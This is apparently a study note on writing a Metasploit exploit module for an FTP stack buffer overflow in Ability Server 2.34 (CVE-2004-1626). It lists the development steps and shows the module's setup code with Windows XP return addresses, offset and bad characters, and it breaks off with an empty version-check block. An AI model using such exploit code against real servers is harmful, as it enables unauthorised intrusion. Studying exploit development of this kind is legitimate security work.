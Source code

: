 # Exploit module

## Remote Exploit 

### FTP exploit 

#### What we want? 
- Include metasploit FTP suitable module for exploitation
- Take Username and password if required 
- Since the EIP Offset could vary between Window versions, will take target list
- Check if the remote host hast has the vulnerable version 
- Take the EIP Offset of each target 
- Set the bad characters
- Send the exploit



- Include metasploit FTP suitable module for exploitation
- Take Username and password if required 
- Since the EIP Offset could vary between Window versions, will take target list

```ruby

include Msf::Exploit::Remote::Ftp


def initialize(info = {})
super(update_info(info,
  'Name'           => 'Ability Server 2.34 STOR Command Stack Buffer Overflow',
  'Description'    => %q{
    This module exploits a stack-based buffer overflow in Ability Server 2.34.
    Ability Server fails to check input size when parsing 'STOR' and 'APPE' commands,
    which leads to a stack based buffer overflow. This plugin uses the 'STOR' command.

    The vulnerability has been confirmed on version 2.34 and has also been reported
    in version 2.25 and 2.32. Other versions may also be affected.
  },
  'Author'         =>
    [
      'muts',           #Initial discovery
      'Dark Eagle',     #same as muts
      'Peter Osterberg' #Metasploit
    ],
  'License'        => MSF_LICENSE,
  'References'     =>
    [
      [ 'CVE', '2004-1626' ],
      [ 'OSVDB', '11030'],
      [ 'EDB', '588'],
    ],
  'DefaultOptions' =>
    {
      'EXITFUNC' => 'process'
    },
  'Privileged'     => false,
  'Payload'        =>
    {
      'Space'    => 1000,
      'BadChars' => "\x00\xff"
    },
  'Platform'       => 'win',
  'Targets'        =>
    [
      [
        'Windows XP SP2 ENG',
        {
          #JMP ESP  (MFC42.dll. Addr remains unchanged until a patched SP3)
          'Ret' => 0x73E32ECF,
          'Offset' => 966
        }
      ],
      [
        'Windows XP SP3 ENG',
        {
          #JMP ESP  (USER32.dll. Unchanged unpatched SP3 - fully pathced)
          'Ret' => 0x7E429353,
          'Offset' => 966
        }
      ],
    ],
  'DisclosureDate' => 'Oct 22 2004'
  ))

register_options(
  [
    Opt::RPORT(21),
    OptString.new('FTPUSER', [ true, 'Valid FTP username', 'ftp' ]),
    OptString.new('FTPPASS', [ true, 'Valid FTP password for username', 'ftp' ])
  ], self.class)
end
```


- Check if the remote host hast has the vulnerable version 

```ruby

```

